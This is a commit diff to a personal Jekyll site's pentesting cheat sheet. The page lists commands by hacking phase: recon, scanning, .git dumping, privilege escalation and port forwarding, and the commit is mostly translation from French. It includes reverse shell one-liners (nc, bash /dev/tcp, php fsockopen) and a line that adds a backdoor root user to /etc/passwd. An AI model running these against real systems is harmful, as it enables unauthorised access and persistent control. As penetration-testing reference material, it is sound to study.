

Before and after one commit to Bilou4/bilou4.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide and 1400 px high, scrolled down 878 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
update main page

````diff
--- a/index.md
+++ b/index.md
@@ -1,7 +1,4 @@
 ---
-# Feel free to add content and custom Front Matter to this file.
-# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults
-
 layout: default
 ---
 # Commands by Hacking phases
@@ -10,57 +7,32 @@
 ## Recognition
 
 {% highlight bash %}
-host [DOMAIN] # ressort IPv4 IPv6
+host [DOMAIN] # get IPv4 IPv6
+
+whois [DOMAIN] # allows you to retrieve information about the dns servers used (available ip server, owner name, address)
+
+dig [nomDomaine] # retrieve DNS addresses. Other information can be retrieved with the -h
+
+dnsenum [nomDomaine] # retrieve DNS records and Nx server
+
+tcptraceroute [nomDomaine]
+
+theharvester -d [nomDomaine] # recovery of emails, host names
+
 {% endhighlight %}
-
-```sh
-whois [DOMAIN] # permet de récupérer des infos sur les serveurs dns utilisés (serveur ip dispo, nom proprio, adresse)
-```
-
-```sh
-dig [nomDomaine] # récupérer les adresses de DNS. Possibilité de récupérer d'autres informations avec les options -h
-```
-
-```sh
-dnsenum [nomDomaine] # récuperer enregistrement DNS et serveur Nx
-```
-
-```sh
-dmitry # @IP, domaine, mails, scan de ports...
-```
-
-```sh
-tcptraceroute [nomDomaine]
-```
-
-```sh
-theharvester -d [nomDomaine] # récupération d'emails, noms d'hotes
-```
-
-```sh
-maltego # recherche d'infos sur une personne, un nom de domaine...
-```
-
-
-[**Way Back Machine**](http://web.archive.org/)
-
-[**Shodan**](https://www.shodan.io/)
-
-[**Exploit Database**](https://www.exploit-db.com/)
-
 
 ___
 ## Scanning
 
 ### Machine enumeration
 
-```sh
-fping/ping # vérifier la présence d'une machine sur le réseau
-fping -g [réseau local] # donne toutes les @ du réseau local qui sont reachable
-```
+{% highlight bash %}
+fping/ping # check the presence of a machine on the network
+fping -g [réseau local] # gives all the local network addresses that are reachable
+{% endhighlight %}
 
-**nmap**: scanner de port open source (graphique -> zenmap)
-```sh
+**nmap**: open source port scanner (graphical -> zenmap)
+{% highlight bash %}
 nmap -sV -p- [ip] # scan network or a machine
  -sV # service version detection
  -O  # operating system detection
@@ -84,52 +56,55 @@
  -oG # Grepable format
  -oX # output in xml format
 
-xsltproc filename.xml -o filename.html # on peut ouvrir dans le navigateur d'un récapitulatif facile à lire.
-```
+xsltproc filename.xml -o filename.html # You can open an easy-to-read summary in the browser.
+{% endhighlight %}
 
 
+{% highlight bash %}
+rustscan -a [ip] -- [nmap_arguments]
+{% endhighlight %}
 <br>
 
 
-```sh
-nessus # signale les faiblesses potentielles sur les machines testées (à télécharger sur tenable)
-/etc/init.d/nessusd start # démarrer nessus
-http://localhost:8834 # accès à nessus + s'enregistrer sur tenable pour un code d'activation
-```
-**wireshark** : capture des trames...
-
+{% highlight bash %}
+nessus # reports potential weaknesses on the tested machines (to be downloaded from tenable)
+/etc/init.d/nessusd start # start nessus
+http://localhost:8834 # access to nessus + register on tenable for an activation code
+{% endhighlight %}
 
 
 ### Website Scanner
 
-```sh
+{% highlight bash %}
 nikto -h [url]
 wapiti
-```
+{% endhighlight %}
 
-```sh
-gobuster dir -u [url] -w [wordlist_path] -e -x .php,.txt,.html -o output.txt
+{% highlight bash %}
+gobuster vhost -w [subdomains_list] -u [url] # look for subdomains
+feroxbuster -w [wordlist_path] -x php,html,txt -u [url] # look for hidden files or directories
 dirbuster
-wfuzz
-```
+wfuzz -z file,[wordlist_path] -d "[param]=FUZZ&[param]=FUZZ" --hc 302 [url] # Fuzz parameters
+{% endhighlight %}
 
-### URL/.git/
+#### URL/.git/
 
-```sh
-wget --mirror -I .git URL/.git/
+{% highlight bash %}
+wget --mirror -I .git [url]/.git/
 git checkout -- # if some files have been deleted, get them back
 git log
-git checkout <LOG-ID> # go back to a previous commit
+git checkout [LOG-ID] # go back to a previous commit
 
 git log --all --full-history
-git show <COMMIT-ID>
+git show [COMMIT-ID]
 git log --stat
-[script export.sh]
-```
+{% endhighlight %}
 
-+ **git-dumper**: tool to dump a git repository from a website: https://github.com/arthaud/git-dumper
-+ **git-tools**: A repository with 3 tools for pwn'ing websites with .git repositories available: https://github.com/internetwache/GitTools
-+ **githacker**: A Git source leak exploit tool that restores the entire Git repository, including data from stash, for white-box auditing and analysis of developers' mind: https://github.com/captain-noob/GitHacker
+Some automated scripts to investigate deeply.
++ **[script export.sh](gists/index.md#exportGitHistory.sh)**: Use this script to get all the history of a given file.
++ **[git-dumper](https://github.com/arthaud/git-dumper)**: tool to dump a git repository from a website.
++ **[git-tools](https://github.com/internetwache/GitTools)**: A repository with 3 tools for pwn'ing websites with .git repositories available.
++ **[githacker](https://github.com/captain-noob/GitHacker)**: A Git source leak exploit tool that restores the entire Git repository, including data from stash, for white-box auditing and analysis of developers' mind.
 
 ___
 ## Exploit (Gaining Access)
@@ -138,53 +113,59 @@
 
 #### Shell upgrading
 
-```sh
+{% highlight bash %}
 /usr/bin/script -qc /bin/bash /dev/null # works almost all the time
 
 python3 -c 'import pty;pty.spawn("/bin/bash")' # only if python is installed
-```
+{% endhighlight %}
 
 #### Shell Stabilization
-```sh
+{% highlight bash %}
 export TERM=xterm # this will give us access to term commands such as clear
 Ctrl + Z # background the shell
 stty raw -echo; fg # This does two things: 1. it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
-```
+{% endhighlight %}
+
+#### Write multiple lines in a file with `echo`
+
+{% highlight bash %}
+echo "line 1
+line 2" >> file.txt
+{% endhighlight %}
 
 #### BASH reverse shell one line
-```sh
+{% highlight bash %}
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] 4444 >/tmp/f
 
-bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" # possibility not to use 'bash -c' at the beginning
+bash -c "bash -i >& /dev/tcp/[ip]/4444 0>&1" # possibility not to use 'bash -c' at the beginning
 
 nc [IP] [PORT]
 
 php -r '$sock=fsockopen("[IP]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
-```
+{% endhighlight %}
 
 ___
 ## Persistence (Maintaining Access) - Privilege Escalation
 
-```sh
+{% highlight bash %}
 echo "root2:`openssl passwd toor`:0:0:root:/root:/bin/bash" >> /etc/passwd # to create another root user
-```
+{% endhighlight %}
 
 
 ### Linux Privilege Escalation
 
+{% highlight bash %}
+sudo -l # checks current privileges
 
-```sh
-sudo -l # check current privileges
+netstat -ltupn # listening ports
+ss -tulw # listening ports
 
-netstat -ltupn # listening port
-ss -tulw # listening port
-
-cat /etc/crontab # checko cronjob
-```
+cat /etc/crontab # checks cronjob
+{% endhighlight %}
 
 #### FIND
 
-```sh
+{% highlight bash %}
 find / -iname "*config*.php" 2>/dev/null # looking for config files - cat [filename] | grep -i "db_"
 find / -user root -perm -u=s 2>/dev/null # Find all files/dirs that are owned by root and have at least the SUID permission
 
@@ -195,102 +176,27 @@
 -perm /444 # only readable by everyone
 
 -exec [command] [option] {}\; 2>/dev/null # {} corresponds to the files returned by the find command
-```
+{% endhighlight %}
+
+#### Capabilities
+
+{% highlight bash %}
+getcap -r / 2>/dev/null # scan the system for capabilities.
+{% endhighlight %}
 
 #### GREP
 
-```sh
+{% highlight bash %}
 grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" # grep ip addresses from your output.
-```
-
-#### LSE - linux-smart-enumeration
-https://github.com/diego-treitos/linux-smart-enumeration
-
-```sh
-wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh
-
-curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
-```
-
-
-#### LES - linux-exploit-suggester
-https://github.com/mzet-/linux-exploit-suggester
-
-```sh
-wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh;chmod 700 les.sh
-```
-
-#### LinPEAS - Linux Privilege Escalation Awesome Script
-https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
-
-```sh
-curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -Lo lPEAS.sh;chmod 700 lPEAS.sh
-```
-___
-## Clearing Track
-
-TODO
-
-___
-# Other useful commands
-
-## Steganography
-
-Find images information
-
-```sh
-identify -verbose
-pngcheck [image]
-zsteg [image] # detect stegano data hidden in PNG & BMP
-```
-
-```sh
-steghide extract -sf [filename]
-stegcracker [file] [wordlist] # bruteforce steghide passphrase
-```
-
-___
-## HTTP Server
-
-### One line
-
-```sh
-python -m SimpleHTTPServer 8000 # Python 2.x
-
-python -m http.server 8000 # Python 3.x
-
-updog # allow uploads
-```
-
-___
-## SSH
-
-```sh
-ssh [ip] -p [port] # connect to an ssh server
-```
-
-### SSH port forwarding
-```sh
-ssh -N user@[IP_distant] -L [@_redirection_machine]:[port_redirection]:[IP_redirigee]:[port_redirige]
-```
-
-
-Example:
-```sh
-ssh -N user@10.10.10.10 -L 172.17.0.1:4441:192.168.0.100:80
-```
-Sur la machine `10.10.10.10`, `user` fait tourner un serveur web au niveau de son interface `192.168.0.100:80`. Ici, je redirige sur mon adresse `172.17.0.1` (celle sur le même réseau que mon container docker) et sur le port 4441. Donc depuis mon navigateur, http://172.17.0.1:4441 est joignable. En indiquant un proxy sur `172.17.0.2:4440`, je peux modifier les requêtes sur Burpsuite si besoin.
-
-## Chisel
-
-[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
+{% endhighlight %}
 
 ### Port forwarding
 
-```sh
+**[Using Chisel](https://github.com/jpillora/chisel)**
+{% highlight bash %}
 # on the attacker
 cd /path/where/chisel/is # binary file
-updog # or whatever cmdline to setup a http server
+updog # or whatever cmdline to setup an http server
 
 # on the victim
 wget IP:PORT/chisel
@@ -303,39 +209,95 @@
 ./chisel client YOUR_IP:9002 R:9001:[redirectedIP]:[redirectedPort]
 
 # Now you have access on the attacker's machine to : localhost:9001
-```
-___
-## File Editor
+{% endhighlight %}
 
-```sh
-hexeditor # hexadecimal
-```
+**Using SSH**
+{% highlight bash %}
+ssh -N user@[IP_distant] -L [@_redirection_machine]:[port_redirection]:[IP_redirigee]:[port_redirige]
+{% endhighlight %}
+
+Example:
+{% highlight bash %}
+ssh -N user@10.10.10.10 -L 172.17.0.1:4441:192.168.0.100:80
+{% endhighlight %}
+On the `10.10.10.10` machine, `user` is running a web server on its `192.168.0.100:80` interface. Here, I'm redirecting to my `172.17.0.1` address (the one on the same network as my docker container) and port 4441. So from my browser, http://172.17.0.1:4441 is reachable. By specifying a proxy on `172.17.0.2:4440`, I can modify the requests on Burpsuite if needed.
+
+
+#### Automated scripts for linux privesc
+
+**[LSE - linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)**
+{% highlight bash %}
+wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh
+
+curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
+{% endhighlight %}
+
+**[LES - linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)**
+{% highlight bash %}
+wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh;chmod 700 les.sh
+{% endhighlight %}
+
+**[LinPEAS - Linux Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)**
+{% highlight bash %}
+curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -Lo lPEAS.sh;chmod 700 lPEAS.sh
+{% endhighlight %}
 
 ___
+## Clearing Track
+
+TODO
+
+___
+# Other useful commands
+
+## HTTP ServerOne line
+
+{% highlight bash %}
+python -m SimpleHTTPServer 8000 # Python 2.x
+
+python -m http.server 8000 # Python 3.x
+
+updog # allows uploads
+{% endhighlight %}
+
+## Steganography
+
+Find images information
+
+{% highlight bash %}
+identify -verbose
+pngcheck [image]
+zsteg [image] # detects stegano data hidden in PNG & BMP
+
+
+steghide extract -sf [filename]
+stegseek [file] [wordlist] # bruteforce steghide passphrase
+{% endhighlight %}
+
+
 ## Web
-
 
 ### Attaque SQL
 
-```sh
+{% highlight bash %}
 sqlmap -u "http://172.16.128.39:8080/student_grade/index.php?student_id=" --tables -D Dysto_School -T student
-```
+{% endhighlight %}
 
 ### Website request command line
-```sh
+{% highlight bash %}
 curl -v [url]
 curl -v -X POST [url]
 wget [url]
-```
+{% endhighlight %}
 
 ___
 ## Forensic Investigation
-```sh
+{% highlight bash %}
 volatility
 testdisk
-```
+{% endhighlight %}
 
 ### Hidden files extraction
-```sh
+{% highlight bash %}
 binwalk -e
-```
+{% endhighlight %}
````
